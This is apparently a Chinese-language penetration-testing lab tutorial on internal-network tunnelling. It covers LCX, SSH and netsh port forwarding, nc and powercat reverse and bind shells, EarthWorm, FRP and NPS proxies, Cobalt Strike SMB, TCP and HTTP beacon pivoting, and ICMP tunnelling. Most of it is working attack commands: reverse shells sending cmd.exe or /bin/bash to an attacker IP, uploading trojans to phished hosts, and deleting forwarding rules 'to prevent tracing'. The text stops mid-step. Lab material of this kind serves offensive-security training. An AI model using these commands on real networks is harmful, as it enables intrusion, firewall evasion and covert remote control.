







# 内网隧道代理技术

## 端口转发相关工具和方法

### LCX端口转发

```
LCX是一款端口转发工具，分为Windows版和Linux版，Linux版本为PortMap。LCX有端口映射和端口
转发两大功能，例如当目标的3389端口只对内开放而不对外开放时，可以使用端口映射将3389端口映
射到目标的其他端口使用；当目标处于内网或目标配置的策略只允许访问固定某一端口时，可以通过端
口转发突破限制。 Windows版的LCX用法:
端口转发：
Lcx -listen <监听slave请求的端口><等待连接的端口>
Lcx -slave <攻击机IP><监听端口><目标IP><目标端口>
端口映射：
Lcx -tran<等待连接的端口><目标IP><日标端口>
```

```
实验场景1
由于配置了防火墙只允许web访问，这个时候攻击者想访问3389端口，远程连接是不可以的，就需要使用LCX进行端口转发Web服务器开启了80端口，3389端口不允许出网，可以将web服务器的3389端口转发到允许出网的53端口，这个时候攻击者在本地监听53端口并且转发到攻击机的1111端口，这个时候攻击者连接自己的1111端口，等于访问web服务器的3389端口.
```

	

```
实验环境:
攻击机192.168.15.1
靶机:192.168.15.115
```

```
1、在攻击机器上使用工具LCX，运行以下命令，监听本地53端口并且转发到本地1111端口
lcx转发工具.exe -listen 53 1111
```

	

```
靶机打开防火墙，新建规则，使得3389端口无法入站连接
```

	

	

	

```
此时攻击机无法通过3389来远程连接靶机。那么通过社工等方法，来使用cs来控制这台靶机。将LCX工具上传到靶机运行，在靶机上运行以下命令，将本地的3389端口转发到192.168.15.1(攻击机)的 53端口
lcx转发工具.exe -slave 192.168.15.1 53 127.0.0.1 3389
```

	

```
此时攻击机也能收到一些监听信息。
```

	

```
此时我们只需要访问自己的1111端口，即可远程连接到靶机上。
```

	

	

```
实验场景2
该场景是靶机是处于内网(但能出网)，而攻击机是在公网，无法直接进行攻击。
Web服务器开启了80端口，3389端口不允许出网，可以将web服务器的3389端口转发到允许出网的54端口，这个时候攻击者在VPS监听54端口并且转发到1111端口，这个时候攻击者连接VPS的1111端口，等于访问web服务器的3389端口

实验环境
内网攻击机(192.168.15.1)
公网攻击机(192.168.15.141)
内网靶机(192.168.15.115)
```

```
1、控制靶机上运行以下命令，将靶机的3389端口转发到公网攻击机的54端口
shell lcx转发工具.exe -slave 192.168.15.141 54 127.0.0.1 3389
```

	

```
先把portmap工具上传到kali上。
在公网的攻击机上运行portmap转发工具，因为公网攻击机是kali(Linux系统)。
将54端口的数据转发到1111端口上。
./portmap -m 2 -p1 54 -p2 1111
```

	

```
内网攻击机,通过公网访问(192.168.15.141:1111)来实现远程连接靶机。
```

	

	

### SSH端口转发

```
SSH通过网络远程访问主机提供保护，可以对客户端和服务端之间的数据传输进行压缩和加密，有身份验证、SCP、SFTP、和端口转发的功能。
```

	

```
本地转发（正向访问A）
实验场景1
现在有如下的网络，电脑A是攻击机器(公网)，可以直接访问电脑B(公网),但是访问不了机器C(内网),可以借助B机器上的
SSH命令进行端口转发访问机器C。
电脑A攻击机(192.168.15.1),WIN10机器
电脑B公网web服务器(192.168.15.100和192.168.50.100)，Centos7
机器C是纯内网机器(192.168.50.150),win7

目标攻击机A，通过机器B来控制纯内网的机器C。
```

```
假设攻击机控制了机器B，这里使用ssh来当作shell进行控制。
```

	

```
机器B使用转发的命令进行转发，本地端口 3333 的流量通过 SSH 隧道转发到远程网络的目标地址192.168.50.150: 3389，但这里前提是要知道机器B的账号密码。
ssh -CfNg -L 3333:192.168.50.150:3389 192.168.15.100
```

	

```
于是即可通过外网来控制纯内网的机器C。
```

	

```
远程端口转发的工作机制：
远程服务器（例如，192.168.1.50）会监听指定的端口（比如 3333），并将收到的流量通过 SSH 隧道转发到本地主机（你发起 SSH 命令的那台机器）。本地主机（你执行 SSH 命令的那台机器）会接收到这部分流量，然后再将它转发到目标的“其他主机”。

ssh反向访问到某个机器上，那么这个机器必须支持是ssh22端口的协议，否则ssh反向转发会失败。
远程转发（反向访问A）
之所以要使用反向访问，原因在于机器A是来自公网，不能访问到控制的机器B(内网)，
实验场景2:
现在有如下的网络，电脑A是攻击机器(公网)，不可以直接访问电脑B(内网),但是机器B可以出网，由于钓鱼被电脑A控制住了
电脑A攻击机(192.168.15.141),kali机器
电脑B(192.168.15.100和192.168.50.100)，Centos7
```

```
这里直接使用ssh来代替shell来控制机器B。
SSH创建一个远程端口转发，将远程服务器 192.168.15.141 上的端口 3336 的流量，通过 SSH 隧道转发到本地机器 192.168.15.100 的 22 端口
ssh -CfNg -R 3336:192.168.15.100:22 192.168.15.141
```

		

```
于是即可远程连接
ssh root@127.0.0.1 -p 3336
```

	

### NETSH端口转发

```
netsh是windows系统自带命令行程序，攻击者无需上传第三方工具即可利用netsh程序可进行端口转发操作，可将内网中其他服务器的端口转发至本地访问运行这个工具需要管理员的权限
实验场景
现在有如下的网络，电脑A是攻击机器，可以直接访问电脑B,但是访问不了机器C,可以借助B机器上的netsh命令进行端口转发访问机器C，这里注意只能访问端口。

实验环境
机器A(win10),ip:192.168.15.1(公网)
机器B(win7),ip:192.168.15.115(公网)，ip:192.168.50.150(内网)
机器C(centos7),ip：192.168.50.100(内网)
目标机器A控制了机器B，通过端口转发，使得机器A可以远程访问机器C
```

```
首先使用cs控制了机器B，然后win7使用netsh命令，把内网机器C的22端口转发到自己的9999端口
netsh interface portproxy add v4tov4 listenaddress=192.168.15.115 listenport=9999 connectport=22 connectaddress=192.168.50.100

```

	

```
于是使用机器A连接机器B的9999端口，即可远程连接内网机器C
ssh root@192.168.15.115 -p 9999
```

	

	

```
为防止溯源，应该最后删除端口转发
netsh interface portproxy delete v4tov4 listenaddress=192.168.15.115 listenport=9999
```

	

## 反弹shell的场景和方法

### nc正向反弹与反向反弹

```
Netcat简称NC,是一个简单、可靠的网络工具,被誉为网络界的瑞士军刀。通NC可以进行端口扫描、反弹Shell、端口监听和文件传输等操作。常用参数如下。
```

	

```
正向反弹shell的使用场景
攻击者机器和靶机可以相互的访问，这个时候可以使用正向shell,靶机会设置端口监听，然后攻击机主动连接shell即可。
```

```
在靶机上运行,监听1111端口，一旦攻击机连接，就会把这个命令执行，把shell给到攻击机
nc -lvvp 1111 -e C:\Windows\System32\cmd.exe //windows机器
nc -lvvp 1111 -e /bin/bash  //linux机器
下面分别是对windows和linux的正向反弹shell。
windows由于没有nc，所以只能使用工具来进行。
```

	

```
win10攻击机执行，即可正向反弹shell成功。
nc64.exe 192.168.15.115 1111
```

	

	

```
win10攻击机执行，即可正向反弹shell成功。
nc64.exe 192.168.15.115 1111
```

	

```
反向反弹shell的使用场景
攻击者机器不能直接访问靶机，但是靶机可以访问攻击者的机器，这个时候使用反向shell
```

```
win10攻击机，监听端口即可
nc64.exe -lvvp 1112
```

		

```
通过控制win7靶机，执行反弹shell命令,当连接到1112端口，就会执行把bin/bash给到该攻击机
nc64.exe -e C:\Windows\System32\cmd.exe 192.168.15.1 1112
```

	

```
或者说控制linux靶机，执行反弹shell命令，连接到1112端口
nc -e /bin/bash 192.168.15.1 1112
```

	

	

### powercat反弹shell

```
PowerCat是一个powershell写的tcp/ip瑞士军刀，看一看ncat的powershell的实现，然后里面也加入了众多好用的功能，如文件上传，smb协议支持，中继模式，生成payload，端口扫描等等。而一般情况下windows上传ncat工具会被杀软干掉，而powercat由于是ps脚本不容易被杀软直接干掉。
```

```
首先给win7靶机设置允许导入ps脚本的配置。并导入ps脚本。
Set-ExecutionPolicy Unrestricted
Import-Module .\powercat.ps1
```

	

	

```
首先使用win7靶机和攻击机进行正向反弹shell连接。
靶机监听8080端口，当被攻击机连接，会把cmd窗口反弹攻击机
powercat -l -p 8080 -e cmd.exe -v
```

	

```
攻击机使用nc执行命令。
nc64.exe 192.168.15.115 8080 -vv
```

	

```
PowerCat和nc反向连接
首先攻击机监听端口
nc64.exe -l -p 8888 -vv
然后控制靶机把shell连接过来。
powercat -c 192.168.15.1 -p 8888 -v -e cmd.exe
```

	

	

```
于是连接过来了
```

	

```
也可以自己提前生成好正向连接或者反向连接的payload脚本，这里以正向连接为例子
powercat -l -p 8000 -e cmd -v -g >> shell.ps1
```

	

```
把生成shell.ps1脚本上传到靶机。
靶机执行即可
.\shell.ps1
```

	

```
然后攻击机上运行即可正向连接成功。
powercat -c 192.168.15.115 -p 8000 -v
```

	

### 应用层代理技术

### 公网单代理配置

```
单代理介绍 
平时在做渗透测试中我们需要对公网的资产进行扫描和探测，但是又害怕对方封掉你的IP地址，或者IP已经封了我们需要挂代理。单个代理表示就一个IP代理机器，IP地址不会自动切换

1、购买或者使用免费的单个代理IP
网站：https://www.kuaidaili.com
快代理提供了免费的单个代理IP,也可以花钱购买自己独有的IP

可以尝试在该网站使用免费的代理
```

	

```
但是免费的代理一般很多不能使用，需要使用网站进行代理检测能否使用。
2、将IP地址整理然后进行测试，看一下哪个可以用
http://www.leishenhttp.com/index/check/index.html
https://www.zdaye.com/ip/CheckHttp/

如果检测可以使用，则就可以在游览器或者bp上设置代理，甚至可以在一些渗透工具上设置代理。
```

	

```
比如使用火绒游览器的插件设置免费代理，于是即可使用代理来进行渗透。
```

	

```
bp设置代理。目标访问地址设置为*，表示可以使用代理访问ip地址。
```

	

```
打勾表示让bp使用这个代理。
```

	

### 公网代理池设置

```
当购买了代理池以后，可以使用游览器上的插件配置代理。
```

	

```
bp设置购买的代理。
```

	

### SSTAP工具使用

```
当我们想让我们的电脑全局都走代理的时候，就需要使用到全局代理，设置了全局代理我们的任何工具直接使用不需要再做任何的配置，所有使用工具 使用BP 浏览器不用做任何的配置，默认就走代理，这种方式最推荐。包括那些不支持密码认证的，只要配置了SSTAP工具，那么所有工具都默认可以使用代理。
```

```
SSTP介绍 
SSTap简介 SSTap是SocksCap64作者新开发的一款利用虚拟网卡实现的网络层代理。支持TCP,UDP，该工具使用简单，可以使用于游戏，建议大家使用这个进行扫描SSTap是SocksCap64作者新开发的一款利用虚拟网卡实现的网络层代理。支持TCP,UDP。
在win10上安装这个工具。
```

	

```
这个工具是使用虚拟网卡进行代理，所以需要安装
```

	

```
在快代理选择隧道代理，开通过代理池
```

	

```
于是可以根据隧道的域名并且根据账号和密码使用代理。
```

		

```
使用SSTap工具添加代理池。
```

	

```
点击小闪电测试是否连接成功。
```

	

```
此时使用游览器，ip就是经过代理的。所以每次请求ip地址都会发生变化。
```

	

## 应用层内网代理

### 内网代理介绍

```
内网代理介绍 
内网资产扫描这种场景一般是进行内网渗透才需要的代理技术，如果你不打内网一般是不需要这种技术的，内网代理技术一般也是采用http或者socks代理。
```

```
代理连接工具主要分为window和linux版本。
如果是windows,则使用proxyifile工具
首先安装这个工具。
```

​		

```
安装完成运行软件
```

	

```
打开代理服务器配置，可以看到支持http和socks代理
```

	

```
该工具支持代理链，代理链可以支持多级代理
```

	

```
linux工具下一般使用命令行工具proxychains，一般默认kalii自带有。当然如果是linux系统想安装参考pdf笔记。
```

### ew介绍

```
Earthworm简称EW 是一套便携式的网络穿透工具，具有 SOCKS v5服务架设和端口转发两大核心功能，可在复杂网络环境下完成网络穿透。该工具支持端口转发，正向代理，反向代理，多级代理等方式，可以打通一条网络隧道，直达网络深处，用蚯蚓独有的手段突破网络限制。
```

### EW一级正向代理

```
正向意思就是攻击者可以访问目标的机器，也就意味着目标的机器在公网。
实验环境:
win10(本机)作为攻击机(192.168.15.1)，控制了server2008(192.168.15.150和192.168.50.145)的一台公网机器，通过给控制机使用EW工具做代理，来访问内网的OA主机(192.168.50.150)。
```

```
首先讲EW上传至server2008,并将其作为代理。
ew_for_Win.exe -s ssocksd -l 9876
```

		

```
win10使用proxyifile连接到内网，首先把server2008添加作为代理服务器。并且检查可以代理是连接成功。
```

			

```
添加好代理后，还需要把代理规则选择成创建的代理服务器。
```

	

```
于是攻击机(win10)即可访问到内网的OA系统。
```


```
使用kali来连接代理，首先修改proxychains4的配置文件，设置代理是哪个
vim /etc/proxychains4.conf
```

	

```
使用代理打开火狐游览器即可尝试访问内网的OA系统。
```

	

### EW一级反向代理

```
反向连接适合于目标没有公网 IP 的情况，这时就需要一台公网 vps 了，这里就直接以内网地址作为演示了。
实验环境攻击机win10(192.168.15.1)
控制靶机winserver2008(192.168.15.150和192.168.50.145)
内网OA系统(192.168.50.150)
```

```
win10攻击机执行
这意味着 EW 将流量从本地的 SOCKS 代理端口9875通过一个已经建立的隧道（通常是反向隧道或其它形式的连接）转发到本机上的 4444 端口。
ew_for_Win.exe -s rcsocks -l 9875 -e 4444
命令解释：
-s 表示启动的服务类型。在这里，rcsocks 表示 Remote Control SOCKS，这是一个反向 SOCKS 代理模式。
-l 表示本地监听的端口。
-e 表示出口端口。
```

	

```
控制靶机server2008执行
通过4444端口反向代理到win10的4444端口。
ew_for_Win.exe -s rssocks -d 192.168.15.1 -e 4444
```

	

```
当靶机输入完，则会显示ok，证明反向代理成功。
```

	

```
在proxifier添加代理并测试连接成功。
```

		

```
设置好代理规则，即可使用攻击机访问内网OA系统。
```

	

### EW二级正向代理

```
1、web服务器在公网黑客可以访问
2、B机器在内网黑客不能访问
3、web服务器只能访问B机器
4、B机器可以访问内网机器
这种情况使用二级正向代理
```

```
实验环境:
win10攻击机(192.168.15.1)
server2008-01控制机(192.168.15.150和192.168.50.145)
server2008-02控制机(192.168.50.155和192.168.60.155)
内网OA(192.168.60.150)
```

```
首先控制server02主机，执行这条命令，使用 EarthWorm 工具在本地启动一个简单的 SOCKS 代理服务器，监听 4444 端口，允许本地或网络中的其他设备使用 SOCKS 代理进行网络流量转发。
ew_for_Win.exe -s ssocksd -l 4444
```

	

```
控制server01机器上，执行这条命令，使用 EarthWorm 工具在本地启动一个监听端口 9874，并通过 LCX 隧道将流量转发到远程主机 192.168.50.155 的 4444 端口。
ew_for_Win.exe -s lcx_tran -l 9874 -f 192.168.50.155 -g 4444
```

	

```
win10攻击机添加代理。
```

	

```
win10攻击机访问OA系统成功。
```

	

### EW二级反向代理

```
1、web服务器在公网不可以访问
2、B机器在内网黑客不能访问
3、web服务器只能访问B机器
4、B机器可以访问内网机器
这种情况使用二级反向代理
```

```
实验环境:
win10攻击机(192.168.15.1)
server2008-01控制机(192.168.15.150和192.168.50.145)
server2008-02控制机(192.168.50.155和192.168.60.155)
内网OA(192.168.60.150)
```

```
Win10攻击机执行命令，该命令使用 EarthWorm 工具在本地启动一个 LCX 监听器，在 2222 端口监听远程主机的连接，并将接收到的流量转发到本地的 4444 端口。
ew_for_Win.exe -s lcx_listen -l 2222 -e 4444
```

	

```
server2008-02执行命令，该命令使用 EarthWorm 工具在本地机器上启动一个 SOCKS 代理服务器，监听本地 5555 端口，允许客户端通过该端口进行 SOCKS 代理访问。
ew_for_Win.exe -s ssocksd -l 5555
```

	

```
server2008-01执行命令，该命令通过 LCX Slave 模式，将内网机器 192.168.60.150 上的 5555 端口流量通过中继服务器 192.168.15.1 转发到外部的 4444 端口，实现了内网穿透和端口转发。
ew_for_Win.exe -s lcx_slave -d 192.168.15.1 -e 4444 -f 192.168.60.150 -g 5555
```

	

```
添加代理。
```

	

```
于是win10攻击机即可访问内网OA系统。
```

	

## NPS和FRP的使用

### FRP点对点转发

```
FRP (Fast Reverse Proxy) 是一个使用 Go 语言开发的高性能的反向代理应用，可以轻松地进行内网穿透，对外网提供服务。FRP 支持 TCP、UDP、HTTP、HTTPS等协议类型，他支持点对点的转发，还有全流量转发，FRP最大的一个特点是使用SOCKS代理，而SOCKS是加密通信的，类似于做了一个加密的隧道，可以把外网的流量，通过加密隧道穿透到内网。效果有些类似于VPN。
```

```
使用场景:内部网络无法直接访问该端口，可以通过FRP进行端口转发到公网
win10攻击机(192.168.15.1)
server2008-01内网机器(192.168.15.150和192.168.50.145)
server2008-02内网机器(192.168.50.150)
目标攻击机远程连接server2008内网机器。
```

```
server2008-01作为被控机打开frp工具，需要进行服务端的配置。监听7000端口
```

		

```
于是服务端启动端口监听，等待反向代理的连接。
frps.exe -c frps.ini
```

		

```
server2008-02由于被钓鱼控制，传frp工具，修改客户端配置文件，让客户端主动连接服务端的7000端口，从而建立隧道通信，并且把本地的3389端口转发到，服务端的6000端口上。
```

			

```
server2008客户端连接服务端。
frpc.exe -c frpc.ini
```

	

```
于是隧道搭建成功，可以通过公网远控内网机器。
```

	

### FRP搭建socks代理

```
使用场景:我们需要搭建socks隧道实现对目标机器的全端口访问
公网win10攻击机(192.168.15.1)
server2008-01被控内网机器(192.168.15.150和192.168.50.145)
win7机器(192.168.50.155)
目标是做好socks代理，访问win7的OA系统。
```

```
win10攻击机做好服务端代理，监听7000端口。
frps.exe -c frps.ini
```

	

	

```
控制server2008-01机器，上传frps工具，并设置好配置文件。通过192.168.15.1的7000端口建立隧道连接，隧道的数据会通过192.168.15.1的6000端口进行转发。
```

	

	

```
于是攻击机可以使用proxifier添加代理了
```

	

```
即可通过攻击机访问内网的OA系统。
```

	

### FRP搭建多级代理

```
使用场景:攻击机不能访问内网主机，但是通过钓鱼控制了两台内网机器A和B,其中机器A只能访问机器B，而机器B才能访问内网的其他主机，那么就需要通过建立二级代理，才可以访问机器B所能访问的内网。

实验环境：
win10攻击机(192.168.15.1)
机器A,server2008-01(192.168.15.150和192.168.50.145)
机器B，server2008-02(192.168.50.155和192.168.60.155)
机器C,win7的OA系统(192.168.60.160)
```

```
首先控制机器B，设置客户端的配置信息，与机器A的7001端口建立隧道，并且能够把数据转发到机器B的6000端口上。
```

	

```
机器A，设置好服务端的配置信息。监听7001端口。并执行服务端的监听。
frps.exe -c frps.ini
```

	

	

```
于是机器B可以通过客户端代理连接服务端。
frpc.exe -c frpc.ini
```

	

```
于是攻击机win10,设置好服务端的代理，并监听7000端口。
frps.exe -c frps.ini
```

	

	

```
最后机器A，在设置好客户端的代理，来连接服务端(win10),配置文件的信息是指机器A通过win10的7000端口建立隧道连接，然后通过本机的6000端口与win10的6000端口进行数据的转发。
frpc.exe -c frpc.ini
```

	

	

```
win10攻击机添加代理
```

	

```
于是即可访问win的OA系统成功。
```

	

```
也可以通过3389进行远程连接win7
```

	

### NPS的介绍和使用

```
nps是一款轻量级、高性能、功能强大的内网穿透代理服务器。目前支持tcp、udp流量转发，可支持任何tcp、udp上层协议（访问内网网站、本地支付接口调试、ssh访问、远程桌面，内网dns解析等等……），此外还支持内网http代理、内网socks5代理、p2p等，并带有功能强大的web管理端。
使用手册：https://ehang-io.github.io/nps/#/
下载地址：https://github.com/ehang-io/nps/releases

NPS也分为客户端和服务端两个
客户端：运行在内网中
服务端：运行在公网上
```

```
实验环境:
win10(攻击机)192.168.15.1
winserver2008(代理机器)192.168.15.150
win7内网OA(192.168.50.160)
```

```
首先根据下载地址，在win10处下载服务端，直接点击服务端即可启动，并从web端登录，密码是123
```

	

	

```
首先新增客户端
```

	

```
点击隧道并创建。设置服务端的端口为5000，那么后续代理连接到5000端口即可访问内网OA系统。
```

	

	

```
将该命令复制到被控的代理机器。
```

	

```
代理机器执行这条命令，于是隧道搭建成功。
```

	

```
添加代理。
```

	

```
成功访问内网OA
```

	

## 上线不出网机器方式

```
热门面试题:
如何探测内网多网卡机器？
答:RPC可以在未授权的情况下，调用Oxid接口，从而实现多网卡机器的探测。
```

### SMB beacon上线

```
介绍：SMB Beacon使用命名管道通过父级Beacon进行通讯，当两个Beacons连接后，子Beacon从父Beacon获取到任务并发送。因为连接的Beacons使用Windows命名管道进行通信，此流量封装在SMB协议中，所以SMB Beacon相对隐蔽，绕防火墙时可能发挥奇效。
```

	

```
实验环境:
上图中的公网VPS可以看作kali攻击机(192.168.15.141)
机器A内网的边缘机器(192.168.15.150和192.168.50.145)
机器B内网OA系统(192.168.50.160)
目标使用木马把机器B控制下来。
```

```
首先cs控制了边缘机器B。
```

	

```
然后创建smb监听器，其中命名管道名字自定义。
```

	

```
使用smb beacon创建无状态木马。
```

	

	

```
将smb.exe木马上传到边缘机器。并运行smb木马。
```

	

```
通过内网横向，比如说IPC等等，上传smb木马到机器B，配合计划任务，然后运行smb木马，然后边缘机器输入该命令建立连接。
link 192.168.50.160
```

	

```
重要知识点，亲自实测过
注意:父子beacon如果要建立通信，那么两个beacon都需要进行执行，并且父beacon所在主机，需要使用cs进行link来建立通信。父子beacon通过命名管道进行通信，但是这个命名管道是基于smb协议通信的，所以开启防火墙会导致无法建立连接，除非打开445端口，而139端口不开放也能建立连接。
```

```
于是可以建立连接。
```

	

### TCP Beacon

```
TCP Beacon和SMB Beacon类似只不过TCP Beacon不是使用SMB与父Beacon进行通信而是使用TCP socket进行通信，cs4.0之后，这个技术就不适合做第一个木马使用，因为他的流量都是明文的，容易被发现但是这个技术,很适合在内网穿透的时候去使用，在内网穿透的时候一般只能使用tcp beacon去生成木马。
```

	

```
首先cs控制边界主机A
```

	

```
创建TCP监听器
```

	

```
选择TCP beacon生成无状态木马
```

	

```
将tcp木马上传到边缘主机A，并且通过内网横向传递到机器B。并让机器B运行该木马
```

	

```
边缘机器A可以不运行该木马，只需连接机器B即可
connect 192.168.50.160
```

	

```
于是控制内网机器B。
```

	

```
通过分析发现，在机器B执行以下命令，能够发现是通过机器B的4444端口与代理机器建立连接。
netstat -ano
```

	

```
总结:如果开启防火墙，那么将无法建立tcp beacon的通信，哪怕打开4444端口通行也不可以。
```

### HTTP 代理上线

```
CS的监听器支持HTTP代理的配置，在配置监听器的时候可以添加HTTP代理，从而实现内网上线
```

	

```
实验环境:
攻击机是kali(192.168.15.141)
机器A是server2008(192.168.15.150和192.168.50.145)被黑客控制作为http代理
机器B是win7的OA系统(192.168.50.160)
```

```
我们使用第三方的工具Goproxy工具可以简单的开启http隧道。
首先把goproxy上传到server2008,并执行命令，此命令启动了一个 HTTP 代理服务器，该服务器使用 TCP 协议允许所有主机连接这个代理，并监听本机的8081 端口。
proxy.exe http -t tcp -p "0.0.0.0:8081"
```

	

```
并且因为是双网卡，还需要做转发。
代理机器执行该命令，此命令设置了一个 端口转发规则，将来自本地 192.168.50.145:8899 的流量转发到192.168.15.150:8081。当有客户端连接到 192.168.50.145:8899 时，流量会被代理并转发到远程主机 192.168.15.150 上的 8081 端口。
netsh interface portproxy add v4tov4 listenaddress=192.168.50.145 listenport=8899 connectaddress=192.168.15.150 connectport=8081
```

	

```
创建http的监听端口，设置代理为代理机器的内网ip和端口，这样kali才能与内网主机建立连接。
```

	

```
选择添加的监听器，来创建无状态木马。
```

	

```
并把木马上传到win7的OA系统，即可上线
```

	

```
总结:首先代理机器分别有两张网卡，一张是公网，一张是内网，在公网的8081端口设置代理监听，并设置端口转发，把内网卡的8899端口的数据能够使用公网卡的8081端口进行转发，于是http隧道搭建成功
```

### 中转上线

```
根据之前的环境继续
更简单的方式是右键点击中转，生成listener监听器。
```

	

```
内网网卡的4444端口设置监听。
```

	

```
生成无状态木马，并放到内网机器win7，运行即可上线。
```

	

	

```
也可以发现中转上线明显是反向连接。
```

	

## DNS和ICMP隧道

### ICMP实现反弹shell

```
ICMP隧道原理
由于ICMP报文自身可以携带数据，而且ICMP报文是由系统内核处理的，不占用任何端口，因此具有很高的隐蔽性。把数据隐藏在ICMP数据包包头的data字段中，建立隐蔽通道。实现绕过防火墙和入侵检测系统的阻拦。
优点：
1.ICMP隐蔽传输是无连接的，传输不是很稳定，而且隐蔽通道的带宽很低
2.利用隧道传输时，需要接触更低层次的协议，这就需要高级用户权限
```

```
反弹shell 
ICMP做隧道一般有这么几种，一种是反弹shell 的形式。
实验环境
攻击机centos7，192.168.15.50
被攻击机器win10,192.168.15.1
```

```
1.下载工具，然后执行安装依赖的命名
pip install impacket
pip2 install impacket==0.9.17
```

		

```
2.执行禁用icmp回复
sysctl -w net.ipv4.icmp_echo_ignore_all=1
```

		

```
3.上传py脚本，开启监听命令
格式：python icmpsh_m.py 攻击者IP 受害者IP
python icmpsh_m.py 192.168.15.50 192.168.15.1
```

```
4.使用工具，在受害者机器执行反弹命令
icmpsh.exe -t 攻击者IP
icmpsh.exe -t 192.168.15.50
```

	

```
5、攻击机收到反弹shell的内容
```

	

```
6.从wireshark分析流量，发现这个反弹shell是通过ICMP协议进行传输的
```

	

### ICMP实现隧道上线CS

```
实验环境:
kali攻击机(192.168.15.141)，用于模拟VPS
靶机win7(192.168.15.115和192.168.50.160)
1、攻击机开启服务端。
./pingtunnel -type server
```

	

```
2.开启客户端，注意一定要以管理员权限打开，否则运行不成功
